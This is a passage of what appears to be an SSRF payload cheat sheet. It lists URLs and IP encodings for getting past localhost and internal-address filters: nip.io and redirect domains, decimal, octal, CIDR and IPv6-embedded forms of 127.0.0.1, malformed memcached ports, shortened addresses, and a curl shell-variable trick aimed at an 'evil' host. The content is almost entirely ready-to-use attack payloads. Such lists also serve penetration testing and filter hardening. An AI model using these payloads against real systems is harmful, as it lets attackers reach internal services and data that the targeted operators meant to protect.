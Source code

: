 ```http
http://spoofed.burpcollaborator.net
http://localtest.me
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://mail.ebc.apple.com redirect to 127.0.0.6 == localhost
http://bugbounty.dod.network redirect to 127.0.0.2 == localhost
```

The service nip.io is awesome for that, it will convert any ip address as a dns.

```http
NIP.IO maps <anything>.<IP Address>.nip.io to the corresponding <IP Address>, even 127.0.0.1.nip.io maps to 127.0.0.1
```

**Bypass localhost with CIDR**<br>
It’s a /8

```http
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
```

**Bypass using a decimal IP location**
```http
http://0177.0.0.1/
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
```

**Bypass using IPv6/IPv4 Address Embedding**<br>
IPv6/IPv4 Address Embedding
```http
http://[0:0:0:0:0:ffff:127.0.0.1]
```

**Bypass using malformed urls**

```http
localhost:+11211aaa
localhost:00011211aaaa
```

**Bypass using rare address**<br>
You can short-hand IP addresses by dropping the zeros

```http
http://0/
http://127.1
http://127.0.1
```

**Bypass using bash variables**

(curl only)

```http
curl -v "http://evil$google.com"
$google = ""
```
